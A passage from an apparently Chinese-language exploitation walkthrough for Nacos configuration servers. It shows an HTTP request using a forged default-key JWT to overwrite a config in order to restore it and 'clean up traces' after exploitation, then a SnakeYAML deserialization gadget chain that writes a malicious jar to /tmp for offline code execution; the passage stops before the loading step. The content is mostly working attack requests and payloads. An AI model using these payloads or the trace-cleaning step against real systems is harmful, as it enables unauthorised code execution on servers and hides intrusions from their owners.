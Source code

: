 在利用完成后，还原配置，清理痕迹：

```http
POST /nacos/v1/cs/configs?accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OX0.00LxfkpzYpdVeojTfqMhtpPvNidpNcDoLU90MnHzA8Q HTTP/1.1
Host: 172.30.12.6:8848
Accept: application/json
Content-Type: application/x-www-form-urlencoded
Content-Length: 1162

schema=&createIp=172.30.12.5&appName=&use=&type=yaml&content=server%3A%0A++port%3A+8080%0A++servlet%3A%0A++++context-path%3A+%2Fhello%0A%0Aspring%3A%0A++application%3A%0A++++name%3A+db-config%0A++cloud%3A%0A++++nacos%3A%0A++++++discovery%3A%0A++++++++server-addr%3A+127.0.0.1%3A8848%0A++++++config%3A%0A++++++++server-addr%3A+127.0.0.1%3A8848%0A++++++++file-extension%3A+yaml%0A++++++++namespace%3A+dev%0A++++++++group%3A+DEFAULT_GROUP%0A++++++++data-id%3A+db-config.yaml%0A++datasource%3A%0A++++mysql%3A%0A++++++url%3A+jdbc%3Amysql%3A%2F%2Flocalhost%3A3306%2Ftest%3FuseSSL%3Dfalse%26serverTimezone%3DUTC%26allowPublicKeyRetrieval%3Dtrue%0A++++++username%3A+root%0A++++++password%3A+P%40ssWord%21%21%21%0A++redis%3A%0A++++host%3A+localhost%0A++++port%3A+6379%0A%0Amanagement%3A%0A++endpoints%3A%0A++++web%3A%0A++++++exposure%3A%0A++++++++include%3A+%27*%27%0A&modifyTime=1708412422025&dataId=db-config&configTags=null&createTime=1708412422025&effect=&createUser=null&id=709688883859709952&tenant=&group=DEFAULT_GROUP&md5=89c1f73940ae28b17ba0d66202a9fde9&desc=Changing+the+password+will+cause+the+client+connection+to+fail.+Therefore%2C+do+not+change+the+password

HTTP/1.1 200
Content-Type: application/json;charset=UTF-8
Content-Length: 4

true
```

> 漏洞分析，推荐文章：[https://xz.aliyun.com/t/10355](https://xz.aliyun.com/t/10355)

### 不出网利用

同 SnakeYaml 反序列化不出网利用一样。

使用 [artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) 生成恶意 jar 包。

写入恶意 jar 包至本地：

```yaml
!!sun.rmi.server.MarshalOutputStream [
    !!java.util.zip.InflaterOutputStream [
        !!java.io.FileOutputStream [
            !!java.io.File ["/tmp/yaml-payload.txt"],
            false,
        ],
        !!java.util.zip.Inflater { input: !!binary EvilBase64String },
        1048576,
    ],
]
```

从本地加载恶意 jar 包：
